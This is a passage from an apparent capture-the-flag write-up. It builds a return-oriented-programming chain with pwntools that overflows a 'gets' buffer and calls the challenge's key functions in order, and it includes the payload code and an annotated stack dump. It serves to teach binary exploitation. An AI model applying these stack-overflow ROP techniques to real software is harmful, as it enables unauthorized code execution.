 This should be fairly obvious, if not review the `game` decompiled code.

At this point `gets` is waiting for input.

#### "Enter something" to get keys 3, 2, 1 (in that order), and then return to `room4`

```
baseproc = 0x56555000
binary = ELF('challenge')

payload  = 28 * b'A'
payload += p32(baseproc + binary.symbols['AAsDrwEk'])
payload += p32(baseproc + binary.symbols['get_key2'])
payload += p32(baseproc + binary.symbols['get_key1'])
payload += p32(baseproc + binary.symbols['room4'])
payload += p32(0xfeedc0de)
p.sendline(payload)
```

Established above in the _Analysis_ section is the order of functions that need to be called.  `key3` (`AAsDrwEk`) has no constraints, `key2` requires `key3` but not `key1` (cannot be set), and `key1` just needs `0xfeedc0de` to be passed.

`payload` is the ROP chain.  The 28 `A`s are the required 24 characters to get the to saved base pointer in the stack + the 4 characters to overwrite the saved base pointer (see stack diagram below).

The next 4 bytes will overwrite the `room4` return address with the address of `AAsDrwEk`, then execute to set `key3`.

The next 4 bytes after that will overwrite the `AAsDrwEk` return address (or where it is expected to be) with the address of `get_key2`, then execute to set `key2`.

The next 4 bytes after that will overwrite the `get_key2` return address (or where it is expected) with the address of `get_key1`, then execute to set `key1`.

The next 4 bytes after that (this is getting old) will overwrite the `get_key1` return address (expected location) with the address of `room4`, then execute that.

Lastly, `0xfeedc0de` as the parameter to `get_key1`.

If confused, read on, otherwise, skip to last step.

This is what the stack looks like from `local_1c` down after the call to `gets`:

```
0xffffd6a0│+0x0020: 0x41414141
0xffffd6a4│+0x0024: 0x41414141
0xffffd6a8│+0x0028: 0x41414141
0xffffd6ac│+0x002c: 0x41414141
0xffffd6b0│+0x0030: 0x41414141
0xffffd6b4│+0x0034: 0x41414141
0xffffd6b8│+0x0038: 0x41414141	 ← $ebp
0xffffd6bc│+0x003c: 0x565567cd  →  <AAsDrwEk+0> push ebp
0xffffd6c0│+0x0040: 0x5655676e  →  <get_key2+0> push ebp
0xffffd6c4│+0x0044: 0x565566de  →  <get_key1+0> push ebp
0xffffd6c8│+0x0048: 0x56556580  →  <room4+0> push ebp
0xffffd6cc│+0x004c: 0xfeedc0de
```
